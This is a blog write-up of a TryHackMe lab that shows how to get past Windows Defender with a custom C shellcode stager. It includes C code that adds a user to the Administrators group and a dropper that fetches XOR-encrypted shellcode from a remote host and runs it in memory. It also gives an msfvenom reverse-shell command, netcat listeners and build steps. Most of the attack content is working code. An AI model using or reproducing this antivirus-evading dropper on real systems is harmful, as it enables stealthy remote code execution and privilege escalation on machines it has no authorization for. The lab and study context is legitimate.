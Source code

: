 ```yaml
---
title: "Bypass Windows Defender with a simple custom shellcode"
categories:
  - Shellcode
tags:
  - Bypass AV
---
```



Earlier this week I worked against a TryHackMe room called [Hack Smarter Security](https://tryhackme.com/r/room/hacksmartersecurity).

This room is pretty interesting, but I won't write a full writeup, there is already enough of them. Instead I want to focus on the AV evasion.


#### Target

The target is a Windows VM featuring a vulnerable WebApp, leading to user credentials discovery.
Once connected through SSH, internal enumeration reveal that Windows Defender is active.

Long story short, we need to exploit a service and replace its executable with a malicious payload that will be executed as SYSTEM. This payload could initiate a shell, or add our current user to administrators localgroup for example.

To be honest this room doesn't require to put effort on AV evasion because a simple, non-detectable payload is enough, as show below :

```
#include <stdlib.h>

int main() {
  system("cmd.exe /c net localgroup Administrators tyler /add");
  return 0;
}

```
Credits goest to [jaxafed's writeup](https://jaxafed.github.io/posts/tryhackme-hack_smarter_security/)


This works, but I could get a shell as SYSTEM ! Obviously I tried a few metasploit payloads, but they are well known to AV vendors and are instantly flagged as malicious.
I used some learnings from [TryHackMe room on AV evasion](https://tryhackme.com/r/room/avevasionshellcode) and build a C# payload, then packed it with [Confuser](https://github.com/mkaring/ConfuserEx).

Well it worked, but somehow was a bit frustrated, and I wanted to work on C based shellcodes.

I am more familiar with C# and already had a staged shellcode with XOR encryption in this langage, so why not try something similar in C ?


#### Shellcode

So my goal is to build a XOR encrypted payload from metasploit and have a dropper to download said payload, decrypt and execute it from memory. That way, our shellcode won't be wrote on disk for maximum stealth.


Good news is I already have most parts I needed, let's start with network :

```
//IP and port where to fetch our shellcode
int port = 9002;
char ip[] = "10.10.10.10";

//initialize struct
int sockfd = socket(AF_INET, SOCK_STREAM, 0);
struct sockaddr_in serv_addr;
serv_addr.sin_family = AF_INET;
serv_addr.sin_port = htons(port);
serv_addr.sin_addr.s_addr = inet_addr(ip);

//connect back home
int n = connect(sockfd, (struct sockaddr *)&serv_addr, sizeof(serv_addr));

//copy our shellcode into buffer
unsigned char buffer[BUFFER_SIZE];
n = recv(sockfd, buffer, BUFFER_SIZE, 0);
```

```
//de-Xor shellcode
char key[] = "MyShellcodePassword";
unsigned char shellcode[n];

for (int i = 0; i < n; i++)
    shellcode[i] = buffer[i] ^ key[i % strlen(key)];

//copy shellcode in memory and execute it
void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
memcpy(exec, shellcode, sizeof shellcode);
((void(*)())exec)();
```

And that's about it ! I snipped small parts, full code is [here](/assets/images/post-20240426/stager.c).
Don't forget to browse my [shellcode repos](https://github.com/20100dbg/shellcodes).
Now we need to generate a reverse shell payload, let's use msfvenom :

```
//create a reverse shell payload. Our shellcode is XOR encrypted with "MyShellcodePassword" as key, result is in a file called 'shellcode'
msfvenom -p windows/shell_reverse_tcp lhost=10.10.10.10 lport=9001 --encrypt xor --encrypt-key MyShellcodePassword -f raw -o shellcode

//this listener will serve our shellcode
nc -lvnp 9002 < shellcode

//this listener will catch our reverse shell
nc -lvnp 9001
```

#### The end ?

This should work fine. But if you remember correctly, we are exploiting a vulnerable *service*. A service executable needs specific functions that can be called by Service manager.

Once again I'm in luck because I got a service template from [Windows Privesc Arena's room](https://tryhackme.com/r/room/windowsprivescarena)

We only have to paste our dropper in Run() function and that's it.

Let's compile :
```
mingw32-gcc.exe .\service.c -lwsock32
```

And here's the result :

![Got root ?](/assets/images/post-20240426/01_win.png)
